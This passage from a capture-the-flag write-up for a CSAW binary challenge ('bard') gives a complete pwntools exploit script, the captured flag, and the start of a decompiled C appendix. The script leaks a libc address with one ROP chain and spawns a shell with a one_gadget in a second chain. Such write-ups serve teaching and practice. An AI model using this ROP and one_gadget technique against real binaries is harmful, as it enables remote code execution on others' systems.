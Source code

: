 Editing the exploit to use a `one_gadget`<sup>3</sup> instead, we're able to solve for (1). Issue (2) was handled by editing the script's i/o a little bit.

That really fails to explain anything, so here is the final script:
```python
from pwnscripts import *
context.binary = './bard'
main = 0x40107B #context.binary.symbols['main']
db = libc_db('./libc-database', binary='./libc-2.27.so')

class rbard(pwnlib.tubes.remote.remote):
    def create(r, alignment:str, weapon:int, name: bytes):
        r.sendlineafter('choose thy alignment (g = good, e = evil):\n', alignment)
        for _ in range(3): r.recvline()
        r.sendline(str(weapon))
        r.sendafter('name:\n', name)
    def combat(r, choice:str, v:int=None):
        r.sendlineafter('(r)un\n', choice)
        if choice == 'r': return r.recvline()
        if choice in 'mef': return ''.join([r.recvline() for _ in range(3)])

rop = ROP(context.binary)
rop.puts(context.binary.got['putchar'])
rop.call(main, [])

r = rbard('pwn.chal.csaw.io', 5019)
r.create('g', 1, b'\n')
for i in range(8): r.create('e', 1, b'\n')
r.create('g', 1, rop.chain())
log.info('First ROP chain sent.')

for i in range(10): r.combat('r')
base = db.calc_base('putchar', extract_first_bytes(r.recvline(),6))
log.info('base: ' + hex(base))
rop = ROP(context.binary)
rop.call(db.select_gadget(1)+base, [])

r.create('g', 1, b'\n')
for i in range(8): r.create('e', 1, b'\n')
r.create('g', 1, rop.chain())
log.info('Second ROP chain sent.')

for i in range(9): r.combat('r')
r.sendlineafter('(r)un\n', 'r') # Remote weirdness
r.interactive()
```
That's it.
### Flag
`flag{why_4r3_th3y_4ll_such_c0w4rds??}`
### Appendix
1. Here is the entire C code:
```C
#include <...>
char alignments_byte_6020A0[16];    // Global variable
// For both of these structs, there is no invisible padding
typedef struct Good {
  char weapon;
  uint8_t PAD;
  uint16_t unknown_20;
  uint32_t unknown_15;
  char name[32];
  uint64_t unknown_hex_4032000000000000;
} Good;
```